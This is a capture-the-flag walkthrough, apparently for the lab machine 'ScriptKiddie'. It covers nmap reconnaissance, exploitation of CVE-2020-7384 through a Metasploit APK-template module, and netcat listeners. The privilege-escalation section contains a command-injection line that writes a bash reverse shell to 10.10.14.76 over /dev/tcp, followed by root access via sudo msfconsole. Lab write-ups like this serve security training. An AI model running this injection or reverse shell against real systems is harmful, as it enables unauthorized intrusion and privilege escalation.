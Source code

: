 # ScriptKiddie

## Initial Recon
Let's start with a nmap scan to extract the open ports
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 09:38 EDT
Nmap scan report for 10.10.10.226
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=4/22%OT=22%CT=1%CU=40802%PV=Y%DS=2%DC=T%G=Y%TM=60817C7
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%TS=A)SEQ(SP=1
OS:05%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   148.11 ms 10.10.14.1
2   148.18 ms 10.10.10.226

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.09 seconds
```

We can see that the ports 5000 and 22 are open, 5000 for http and 22 for ssh

## Website Enumeration

Open the following link in the browser : http://10.10.10.226:5000

![alt text](https://miro.medium.com/max/1050/1*kHKLfZcara8e5gh-YGbe1Q.png)

A very simple page with 3 sections, Nmap scan, msfvenom and searchSploit.
We can try command injection and file Upload vulnerability.
After some research we found that is APK template command injection vulnerability : CVE-2020-7384

## Metasploit
Let's create a payload with metasploit framework using the exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection module.
The generated payload is with .apk extension.
First, start a netcat listener on the port 5555
```
nc -nlvp 5555
```
Now we can upload the payload with the Android platform and our ip address.
In our machine, we can see that the reverse connection has been established.
User flag is in users.txt flag

## Privilege Escalation
In the logs directory, we can see that the file named hackers is owned by the group pwn, so we can execute commands with this group.
Now let's establish a reverse shell using this file.
Fisrt, start another netcat listener on the port 1234
```
nc -nlvp 1234
```
now in the box machine, run the following command :

```
echo "   ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.76/1234 0>&1' #" >> hackers
```

BOOOOOOOOOM, the reverse connection has been made but this time with user pwn. But we need the root user, let's give a look at the sudo permissions with this command :
```
sudo -l
```
```
User pwn may run the following commands on ScriptKiddie:
  (root) NOPASSWORD: /opt/metasploit-framework-6.0.9/msfconsole
```

Nice, so we can run metasploit with root privileges and without a password
```
sudo msfconsole
```
get access to the shell
```
msf6>/bin/bash
```
now we are logged in with root user.
The system falg is located in root.txt file





